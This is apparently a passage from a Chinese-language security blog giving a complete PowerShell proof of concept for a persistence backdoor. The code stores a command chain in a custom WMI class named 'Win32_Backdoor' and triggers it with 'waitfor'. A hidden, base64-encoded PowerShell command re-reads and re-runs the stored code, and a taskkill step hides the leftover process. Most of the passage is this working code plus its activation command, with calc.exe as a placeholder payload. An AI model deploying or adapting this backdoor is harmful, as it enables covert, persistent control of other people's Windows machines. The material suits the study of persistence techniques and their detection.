 ```
$StaticClass = New-Object Management.ManagementClass('root\cimv2', $null,$null)
$StaticClass.Name = 'Win32_Backdoor'
$StaticClass.Put()
$StaticClass.Properties.Add('Code' , "cmd /c start calc.exe ```&```& waitfor persist ```&```& powershell -nop -E JABlAHgAZQBjAD0AKABbAFcAbQBpAEMAbABhAHMAcwBdACAAJwBXAGkAbgAzADIAXwBCAGEAYwBrAGQAbwBvAHIAJwApAC4AUAByAG8AcABlAHIAdABpAGUAcwBbACcAQwBvAGQAZQAnAF0ALgBWAGEAbAB1AGUAOwAgAGkAZQB4ACAAJABlAHgAZQBjAA==")
$StaticClass.Put() 
```

**注：**

存在两次转义字符 

```
 ``用来表示`
```
 

安装代码：

```
$exec=([WmiClass] 'Win32_Backdoor').Properties['Code'].Value;
iex $exec
```

激活命令：

`waitfor /s 127.0.0.1 /si persist`

实际测试如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-6-7/3-4.png)

存在bug，导致powershell.exe无法正常退出，进程在后台残留

所以需要添加一段代码，用来结束进程powershell.exe

**注：**

根据逻辑关系，结束powershell.exe的代码要写在`powershell -nop -W Hidden -E ...`之前


最终，完整POC代码如下：


后门代码：

（管理员权限）

```
$StaticClass = New-Object Management.ManagementClass('root\cimv2', $null,$null)
$StaticClass.Name = 'Win32_Backdoor'
$StaticClass.Put()| Out-Null
$StaticClass.Properties.Add('Code' , "cmd /c start calc.exe ```&```& taskkill /f /im powershell.exe ```&```& waitfor persist ```&```& powershell -nop -W Hidden -E JABlAHgAZQBjAD0AKABbAFcAbQBpAEMAbABhAHMAcwBdACAAJwBXAGkAbgAzADIAXwBCAGEAYwBrAGQAbwBvAHIAJwApAC4AUAByAG8AcABlAHIAdABpAGUAcwBbACcAQwBvAGQAZQAnAF0ALgBWAGEAbAB1AGUAOwAgAGkAZQB4ACAAJABlAHgAZQBjAA==")
$StaticClass.Put() | Out-Null

$exec=([WmiClass] 'Win32_Backdoor').Properties['Code'].Value;
iex $exec | Out-Null
```
